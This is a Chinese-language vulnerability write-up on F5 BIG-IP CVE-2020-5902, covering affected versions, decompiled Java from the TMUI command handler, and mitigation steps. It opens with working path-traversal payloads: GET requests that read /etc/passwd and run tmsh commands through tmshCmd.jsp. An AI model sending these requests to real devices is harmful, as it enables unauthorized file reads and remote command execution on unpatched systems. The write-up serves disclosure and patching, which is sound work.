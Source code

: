 # F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902）

编辑：r4v3zn

分析作者：[@Jas502n](https://github.com/jas502n)

## Payload

```
GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp 
GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
```

![](cve-2020-5902/1.png)

任意文件读取

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

![](cve-2020-5902/2.png)

RCE：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

执行命令：https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions

![](cve-2020-5902/3.png)

## 概况

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。2020 年7 月 1日，F5 公布流量管理用户界面（TMUI），也称为配置实用程序，在未公开的页面中具有远程执行代码（RCE）漏洞，漏洞编号为 CVE-2020-5902。

攻击者可利用该漏洞执行任意的系统命令、创建或删除文件，关闭服务/执行任意的Java代码，可能完全入侵系统，对此漏洞 CVSS 评分 10 分。

## 影响版本

- BIG-IP = 15.1.0
- BIG-IP = 15.0.0
- BIG-IP 14.1.0 - 14.1.2
- BIG-IP 13.1.0 - 13.1.3
- BIG-IP 12.1.0 - 12.1.5
- BIG-IP 11.6.1 - 11.6.5

## 分析过程

漏洞点：

```java
JSONObject resultObject = WorkspaceUtils.runTmshCommand(cmd, request);
```

```java
/usr/local/www/tmui/WEB-INF/lib/tmui.jar/com.f5.tmui.locallb.handler.workspace.WorkspaceUtils#runTmshCommand
```

```java
public static JSONObject runTmshCommand(String command, HttpServletRequest request) {
    F5Logger logger = (F5Logger)F5Logger.getLogger(WorkspaceUtils.class);
    JSONObject resultObject = new JSONObject();
    String output = "";
    String error = "";
    if (!csrfValidated(request.getHeader("_bufvalue"), request.getHeader("_timenow"), request.getHeader("Tmui-Dubbuf"))) {
      logger.warn("Invalid user token - token provided by user is not authorized");
      resultObject.put("output", output);
      resultObject.put("error", NLSEngine.getString("ilx.workspace.error.InvalidUserToken"));
      return resultObject;
    } 
    if ("POST".equalsIgnoreCase(request.getMethod())) {
      String[] cmdArray = command.split(" ");
      String operation = cmdArray[0];
      String module = cmdArray[2];
      if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
        try {
          String[] args = { command };
          Syscall.Result result = Syscall.callElevated(Syscall.TMSH, args);
          output = result.getOutput();
          error = result.getError();
        } catch (com.f5.tmui.util.Syscall.CallException e) {
          logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + e.getMessage());
          error = e.getMessage();
        } 
      } else {
        error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
      } 
    } else {
      error = NLSEngine.getString("ilx.workspace.error.InvalidMethod");
    } 
    resultObject.put("output", output);
    resultObject.put("error", error);
    return resultObject;
}
```

## 靶场

无

## 修复

1. 登陆 TMOS Shell（**tmsh**）执行：

`tmsh`

2. 修改 httpd 配置信息：

```
edit /sys httpd all-properties
```

3. 找到`include` 部分并添加以下内容：

```
include '
<LocationMatch ".*\.\.;.*">
Redirect 404 /
</LocationMatch>
'
```

4. 通过输入以下命令，将更改写入并保存到配置文件中：

```
Esc
:wq!
```

5. 通过输入以下命令来保存配置：

```
save /sys config
```

6. 通过输入以下命令来重新启动**httpd**服务：

```
restart sys service httpd
```

也可以通过升级的方式来进行修复：

- BIG-IP 15.x 升级至 15.1.0.4

- BIG-IP 14.x 升级至 14.1.2.6
- BIG-IP 13.x 升级至 13.1.3.4
- BIG-IP 12.x 升级至 12.1.5.2
- BIG-IP 11.x 升级至 11.6.5.2

## 分析文章

- [CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

## 参考

- https://twitter.com/Nep_1337_1998/status/1279610946864820225
- https://github.com/jas502n/CVE-2020-5902